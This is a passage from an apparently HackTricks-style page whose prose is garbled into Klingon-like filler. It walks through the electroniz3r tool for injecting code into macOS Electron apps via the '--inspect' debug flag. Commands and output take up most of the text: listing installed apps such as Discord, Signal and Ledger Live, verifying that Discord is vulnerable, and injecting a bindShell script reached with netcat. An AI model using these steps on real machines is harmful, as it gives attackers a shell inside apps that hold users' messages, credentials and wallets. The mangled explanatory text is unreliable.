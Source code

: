 [**electroniz3r**](https://github.com/r3ggi/electroniz3r) tool 'oH **find vulnerable electron applications** installed 'ej code injection 'oH. 'oH tool 'ej **`--inspect`** technique vItlhutlh:

compile vItlhutlh 'ej vaj vItlhutlh:
```bash
# Find electron apps
./electroniz3r list-apps

╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
org.whispersystems.signal-desktop            /Applications/Signal.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.neo4j.neo4j-desktop                      /Applications/Neo4j Desktop.app
com.electron.dockerdesktop                   /Applications/Docker.app/Contents/MacOS/Docker Desktop.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.ledger.live                              /Applications/Ledger Live.app
com.postmanlabs.mac                          /Applications/Postman.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
com.hnc.Discord                              /Applications/Discord.app

# Check if an app has vulenrable fuses vulenrable
## It will check it by launching the app with the param "--inspect" and checking if the port opens
/electroniz3r verify "/Applications/Discord.app"

/Applications/Discord.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 57739`

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345`
```
## References

* [https://www.electronjs.org/docs/latest/tutorial/fuses](https://www.electronjs.org/docs/latest/tutorial/fuses)
* [https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks)
* [https://m.youtube.com/watch?v=VWQY5R2A6X8](https://m.youtube.com/watch?v=VWQY5R2A6X8)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
